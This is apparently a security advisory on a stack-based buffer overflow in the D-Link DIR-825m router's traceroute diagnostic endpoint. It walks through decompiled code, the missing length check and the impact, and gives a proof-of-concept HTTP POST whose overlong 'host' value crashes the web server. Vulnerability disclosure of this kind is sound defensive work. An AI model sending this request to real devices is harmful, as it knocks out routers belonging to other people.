



# D-Link Router DIR-825m - Stack-based Buffer  in /boafrm/formTracerouteDiagnosticRun 

## Vulnerability Details

### Detail Information

| **Field**              | **Value**                                                    |
| ---------------------- | ------------------------------------------------------------ |
| **Vendor**             | D-Link                                                       |
| **Product**            | D-Link DIR-825m (and other models sharing the same firmware codebase) |
| **Affected Version**   | Firmware v1.1.8 (and potentially prior)                      |
| **Vulnerability Type** | Stack-based Buffer Overflow (CWE-121)                        |
| **Vendor Homepage**    | https://www.dlink.com/                                       |

## Vulnerability Description

During a security review of the router's firmware, a critical stack-based buffer overflow vulnerability was identified in the `/boafrm/formTracerouteDiagnosticRun` endpoint.

The vulnerability resides within the `sub_41CBCC` function, which handles traceroute diagnostic requests. The function retrieves the user-controlled `host` parameter from the incoming HTTP POST request. Before formatting this parameter into the system command buffer, the program performs a character white-list validation using `sub_41577C`.

However, although the validation function restricts the allowed character set (only allowing digits, dots `.` , colons `:`, hyphens `-`, underscores `_`, spaces, and tabs), **it completely fails to perform any length validation** on the incoming `host` string. Consequently, the program uses the unsafe `sprintf` function to copy the arbitrary-length `host` parameter into a fixed-size stack buffer `v7` (allocated with only 260 bytes). An attacker can bypass the character validation by using a long string of allowed characters (e.g., repeating dots or digits) to overflow the stack buffer, leading to memory corruption, Denial of Service (DoS), or potentially arbitrary code execution.

- **Vulnerability Location**: `/boafrm/formTracerouteDiagnosticRun`
- **Vulnerable Function**: `sub_41CBCC`

## Root Cause

The root cause of this vulnerability lies in the combination of **lack of length validation in the input filter** and **use of a dangerous string copying function without bounds checking**.



Inside `sub_41CBCC`, the local buffer `v7` is declared on the stack:

```c
char v7[260];
```

The function extracts the `host` parameter:

```c
v4 = (const char *)sub_41351C(a1, "host", "");
```

It validates the input using `sub_41577C`:

```c
if ( v4 && (!*v4 || sub_41577C(v4, "can't find the first boundry") == -1) )
```

Since `sub_41577C` only enforces *character type* constraints (e.g., rejecting shell metacharacters like `;`, `&`, `|` and letters `a-zA-Z`), a string composed entirely of repeating dots `.` or digits `1` will successfully pass the filter, regardless of its length.

Once the validation is bypassed, the program copies the unconstrained `v5` (stored `v4`) directly into `v7` using `sprintf`:

```c
sprintf(v7, "traceroute -I %s -w 2 -m 20 &> /var/tmp/tracerouteDiagnosticResult", v5);
```

Since the static template `"traceroute -I  -w 2 -m 20 &> /var/tmp/tracerouteDiagnosticResult"` occupies approximately **73 bytes**, any `host` parameter longer than **187 bytes** will overflow the 260-byte stack buffer `v7`, overwriting critical registers on the stack frame (such as the saved frame pointer and return address `$ra`).

## Impact

An attacker can exploit this vulnerability to achieve the following outcomes:

- **Denial of Service (DoS)**: Corrupting the stack structure of the Web server process, forcing the `boa` daemon to crash with a segmentation fault. This renders the device's administrative web interface completely inaccessible.
- **Potential Execution Flow Hijack**: Overwriting the return address on the stack to redirect program execution. Although the filter `sub_41577C` limits payload construction to alphanumeric-like characters (digit-only/special symbol payloads), advanced exploitation techniques (e.g., alphanumeric ROP chains) might still be leveraged on specific architectures.

## Proof of Concept (PoC)

### HTTP POST Request

```http
POST /boafrm/formTracerouteDiagnosticRun HTTP/1.1
Host: 192.168.0.1
Content-Length: 475
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.1/traceroute_diagnostic.htm
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: webuicookie=16041526351804289383
Connection: keep-alive

host=1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1.1&textarea=%09%09%09%0D%0A%09%09&submit-url=%2Ftraceroute_diagnostic.
```

## screenshots of the local reproduction

- Setting up the environment using firmae and Running the PoC via Burp Repeater



- Result:

  
